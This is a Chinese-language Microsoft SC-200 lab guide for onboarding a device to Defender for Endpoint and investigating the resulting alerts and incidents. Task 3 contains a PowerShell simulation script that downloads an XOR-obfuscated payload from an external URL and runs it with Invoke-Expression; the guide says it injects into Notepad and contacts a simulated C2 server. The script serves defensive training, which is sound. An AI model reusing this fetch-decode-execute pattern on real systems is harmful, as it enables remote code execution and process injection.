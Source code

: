 ```yaml
---
lab:
  title: 练习 2 - 使用 Microsoft Defender for Endpoint 缓解攻击
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# 学习路径 2 - 实验室 1 - 练习 2 - 使用 Microsoft Defender for Endpoint 缓解攻击

## 实验室方案

![实验室概述。](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

你是一家公司的安全操作分析师，你的公司正在实施 Microsoft Defender for Endpoint。 你的主管计划加入一些设备，以深入了解安全运营 (SecOps) 团队响应程序所需的更改。

要探索 Defender for Endpoint 攻击缓解功能，你将验证设备载入是否成功，并调查在该过程中创建的警报和事件。

>**注意：** 我们提供 **[交互式实验室模拟](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** ，让你能以自己的节奏点击浏览实验室。 你可能会发现交互式模拟与托管实验室之间存在细微差异，但演示的核心概念和思想是相同的。

### 任务 1：验证设备加入

在此任务中，你将确认设备已成功加入并创建测试警报。

1. 如果尚未访问 Microsoft Edge 浏览器中的 Microsoft Defender XDR 门户，请转到 (https://security.microsoft.com) 并以租户的管理员身份登录。

1. 在左侧菜单的“资产”区域下，选择“设备” 。 请等到 WIN1 出现在“设备”页面中，然后再继续操作。 否则，可能需要重复此任务以查看稍后将生成的警报。

    >**注意：** 如果你已完成载入过程，但在一小时后未在“设备”列表中看到设备，这可能指示存在载入或连接问题。

1. 从左侧菜单栏中选择“设置”，然后从“设置”页面中选择“终结点” 。

1. 在“设备管理”部分选择“加入”，并确保选择“Windows 10 和 11”作为操作系统。 “第一个设备已加入”消息现在显示“已完成” 。

1. 向下滚动，在“2. 运行检测测试”部分，选择“复制”按钮以复制检测测试脚本。  

1. 在 WIN1 虚拟机的 Windows 搜索栏中，键入“CMD”，然后在命令提示符应用的右窗格上，选择“以管理员身份运行” 。

1. 显示“用户帐户控制”窗口时，选择“是”以允许应用运行。 

1. 粘贴脚本的方法是右键单击“管理员:**命令提示符”窗口，并按 Enter 键运行** 。

    >**注意：** 该窗口会在成功运行脚本后自动关闭，并在几分钟后，在 Microsoft Defender XDR 门户中生成警报。

### 任务 2：调查警报和事件

在此任务中，你将调查上一任务中载入检测测试脚本生成的警报和事件。

1. 在 Microsoft Defender XDR 门户中，从左侧菜单栏中选择“事件和警报”，然后选择“警报”********。

1. 在“警报”窗格中，选择名为“可疑 PowerShell”命令行”的警报以加载其详细信息******。

1. 查看“警报情景”时间线，然后查看“详细信息”和“建议”选项卡******。

    >**注意：** 在警报“详细信息”选项卡下，可以向下滚动到“事件详细信息”部分，然后选择“一个终结点上的执行事件”链接以打开该事件******。

1. 在 Microsoft Defender XDR 门户中，从左侧菜单栏选择“事件和警报”，然后选择“事件”********

1. 右侧窗格中会出现名为“一个终结点上的执行事件”的新事件**。 选择事件名称以加载其详细信息。

1. 选择“管理事件”链接（带有铅笔图标），并显示一个新的窗口边栏选项卡****。

1. 在“事件标记”下，键入“模拟”，然后选择“模拟(新建)”以创建新标记。********

1. 选择切换“分配给”，将用户帐户（我）添加为事件所有者。

1. 在“分类”下，展开下拉菜单。

1. 在“参考性预期活动”下，选择“安全测试” 。

1. 根据需要添加任何注释，然后选择“保存”以更新事件并结束。

1. 查看“攻击情景、警报、资产、调查、证据和响应”以及“摘要”选项卡的内容。 设备和用户位于“资产”选项卡下**。在实际事件中，“攻击情景”选项卡会显示“事件图”****。 提示：某些选项卡可能由于显示器的大小而被隐藏。 选择省略号选项卡 (...) 显示它们。

### 任务 3 模拟攻击

>**警告：** 此模拟攻击非常适合实践式学习。 在使用 Azure 租户提供的课程时，请仅执行为本实验室提供的说明中的攻击。  在此租户完成此培训课程后，可以执行其他模拟攻击。**

在此任务中，你将模拟 WIN1 虚拟机上的攻击，并验证 Microsoft Defender for Endpoint 是否检测到并缓解了攻击。

1. 在 WIN1 虚拟机上，右键单击“开始”按钮，然后选择“Windows PowerShell (管理员)”**********。

1. 显示“用户帐户控制”窗口时，选择“是”以允许应用运行。

1. 复制以下模拟脚本并将其粘贴到 PowerShell 窗口中，然后按 Enter 来运行该脚本****：

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**注意：** 如果在运行脚本时遇到错误（红色），则可以打开记事本应用并将脚本复制到空白文件中。 确保在记事本中启用了“自动换行”**。 在 PowerShell 中单独复制并运行脚本的每一行。

1. 该脚本将生成多行输出，并生成一条消息，指出“无法解析域中的域控制器”**。 几秒钟后，“记事本”应用将打开**。 模拟攻击代码将注入记事本中。 保持自动生成的记事本实例处于打开状态，以体验完整场景。 模拟攻击代码将尝试与外部 IP 地址通信（模拟 C2 服务器）。

### 任务 4：以单个事件的形式调查模拟攻击

1. 在 Microsoft Defender XDR 门户中，从左侧菜单栏选择“事件和警报”，然后选择“事件”********

1. 一个名为“涉及一个终结点上的防御规避和发现的多阶段事件”的新事件位于右侧窗格中**。 选择事件名称以加载其详细信息。

1. 在“攻击案例”选项卡下，折叠“警报”和“事件详细信息”窗格以查看完整的“事件图”**************。

1. 将鼠标悬停在“事件图节点”上并选择它，以查看“实体”******。

1. 重新展开“警报”窗格（左侧），然后选择“播放攻击案例”和“运行”图标**********。 这会逐个警报地显示攻击时间线，并动态填充“事件图”**。

1. 查看“攻击情景、警报、资产、调查、证据和响应”以及“摘要”选项卡的内容。 设备和用户位于“资产”选项卡下**。提示****：某些选项卡可能由于显示器的大小而被隐藏。 选择省略号选项卡 (...) 显示它们。

1. 在“证据和响应”选项卡下，选择“IP 地址”，然后选择显示的“IP 地址”**********。 在弹出窗口中，查看 IP 地址详细信息，向下滚动并选择“打开 IP 地址页”按钮****。

1. 查看“IP 地址”页中“概述”、“事件和警报”以及“组织中的发现结果”选项卡的内容****。 某些选项卡可能不包含 IP 地址的信息。

## 你已完成本实验室
